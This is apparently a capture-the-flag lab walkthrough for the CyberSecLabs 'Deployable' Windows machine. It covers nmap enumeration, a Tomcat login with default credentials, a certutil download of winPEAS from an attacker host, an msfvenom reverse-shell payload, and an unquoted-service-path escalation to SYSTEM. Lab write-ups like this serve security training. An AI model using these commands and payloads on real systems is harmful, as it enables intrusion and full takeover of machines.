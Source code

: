 # CyberSecLabs : Deployable 172.31.1.13

Nmap scans

```zsh
nmap -sS -Pn -p- -r 172.31.1.13 -v

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8009/tcp  open  ajp13
8080/tcp  open  http-proxy
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49164/tcp open  unknown
49165/tcp open  unknown
```

Services and Default script scan

```zsh
 nmap -sC -sV -p 135,139,445,3389,5985,8009,8080,47001,49152,49153,49154,49155,49156,49164,49165 172.31.1.13
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-20 03:13 EDT
Nmap scan report for 172.31.1.13
Host is up (0.16s latency).

PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-20T07:15:04+00:00; +2s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
8009/tcp  open  ajp13              Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp  open  http               Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0 
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49164/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
|_nbstat: NetBIOS name: DEPLOYABLE, NetBIOS user: <unknown>, NetBIOS MAC: 02:a6:2e:ac:ff:3a (unknown)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-20T07:14:58
|_  start_date: 2020-05-20T06:50:18

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.33 seconds


```

Went to port 8080 , default creds worked for ```TOMCAT``` login with user - ```tomcat``` and pass - ```s3cret``` which also appears in the error message.

Now grab the user flag simple.

For the Privesc, ```SeImpersonateToken``` is enabled but Juicy Potato will not work.

Uploaded winPEASany.exe using certutil
```zsh
certutil -urlcache -split -f http://10.10.0.40:80/winPEASany.exe 
```
Ran a winPEASany.exe

And saw Unquoted Service Path. 

```C:\Program Files\Deploy Ready\Service Files\Deploy.exe```

Simply used msfvenom to make a reverse.exe 

```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.40 LPORT=4445 -f exe -o Service.exe
```

Uploaded it using certutil, uploade accesschk.exe and sc to check the path
```cmd
C:\Users\tomcat\AppData\Local\Temp>sc qc Deploy
sc qc Deploy
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Deploy
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Deploy Ready\Service Files\Deploy.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Deploy
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```cmd
C:\Users\tomcat\AppData\Local\Temp>sc query Deploy
sc query Deploy

SERVICE_NAME: Deploy 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```

we can see that by hit and trial we can go inside Deploy Ready but not Service Files, so I decided to name the reverse shell as Service.exe and started the service.

```cmd
net start Deploy
```
with another listener at 4445.

Now, I have system privileges.
